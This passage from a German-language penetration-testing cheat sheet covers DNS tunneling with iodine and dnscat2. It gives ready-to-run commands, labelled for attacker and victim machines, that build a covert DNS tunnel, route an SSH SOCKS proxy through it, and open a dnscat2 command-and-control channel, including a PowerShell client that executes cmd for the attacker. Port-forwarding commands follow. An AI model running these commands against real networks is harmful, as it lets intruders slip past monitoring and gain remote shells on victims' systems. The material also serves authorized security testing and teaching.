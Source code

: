 ## YARP

Ein Reverse-Proxy, der von Microsoft erstellt wurde. Sie finden ihn hier: [https://github.com/microsoft/reverse-proxy](https://github.com/microsoft/reverse-proxy)

## DNS Tunneling

### Iodine

[https://code.kryo.se/iodine/](https://code.kryo.se/iodine/)

Root wird in beiden Systemen benötigt, um tun-Adapter zu erstellen und Daten zwischen ihnen über DNS-Abfragen zu tunneln.
```
attacker> iodined -f -c -P P@ssw0rd 1.1.1.1 tunneldomain.com
victim> iodine -f -P P@ssw0rd tunneldomain.com -r
#You can see the victim at 1.1.1.2
```
Der Tunnel wird sehr langsam sein. Sie können eine komprimierte SSH-Verbindung durch diesen Tunnel erstellen, indem Sie Folgendes verwenden:
```
ssh <user>@1.1.1.2 -C -c blowfish-cbc,arcfour -o CompressionLevel=9 -D 1080
```
### DNSCat2

[**Hier herunterladen**](https://github.com/iagox86/dnscat2)**.**

Stellt einen C\&C-Kanal über DNS her. Es benötigt keine Root-Rechte.
```bash
attacker> ruby ./dnscat2.rb tunneldomain.com
victim> ./dnscat2 tunneldomain.com

# If using it in an internal network for a CTF:
attacker> ruby dnscat2.rb --dns host=10.10.10.10,port=53,domain=mydomain.local --no-cache
victim> ./dnscat2 --dns host=10.10.10.10,port=5353
```
#### **In PowerShell**

Sie können [**dnscat2-powershell**](https://github.com/lukebaggett/dnscat2-powershell) verwenden, um einen dnscat2-Client in PowerShell auszuführen:
```
Import-Module .\dnscat2.ps1
Start-Dnscat2 -DNSserver 10.10.10.10 -Domain mydomain.local -PreSharedSecret somesecret -Exec cmd
```
#### **Portweiterleitung mit dnscat**
```bash
session -i <sessions_id>
listen [lhost:]lport rhost:rport #Ex: listen 127.0.0.1:8080 10.0.0.20:80, this bind 8080port in attacker host
```
#### Ändern Sie den DNS von Proxychains
